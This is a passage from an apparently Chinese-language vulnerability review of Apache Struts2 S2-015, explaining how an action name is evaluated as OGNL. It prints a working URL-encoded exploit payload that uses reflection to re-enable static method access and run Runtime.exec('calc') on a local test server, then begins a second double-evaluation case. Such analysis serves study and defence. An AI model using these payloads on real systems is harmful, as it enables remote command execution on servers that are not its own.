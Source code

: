 上述配置能让我们访问 `name.action` 时使用 `name.jsp` 来渲染页面，但是在提取 `name` 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 `name` 值的位置比较特殊，一些特殊的字符如 `/` `"` `\` 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 `SecurityMemberAccess` 类中的 `setAllowStaticMethodAccess` 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 `(new java.lang.ProcessBuilder('calc')).start()` 来解决，另外还可以借助 Java 反射机制去间接修改：

    #context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
    
可以构造 Payload 如下：

```
    http://localhost:8080/S2-015/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('calc')}.action
```

![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/8.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
		<action name="param" class="com.demo.action.ParamAction">
			<result name="success" type="httpheader">
			  	<param name="error">305</param>
  				<param name="headers.fxxk">${message}</param>
			</result>
		</action>
```
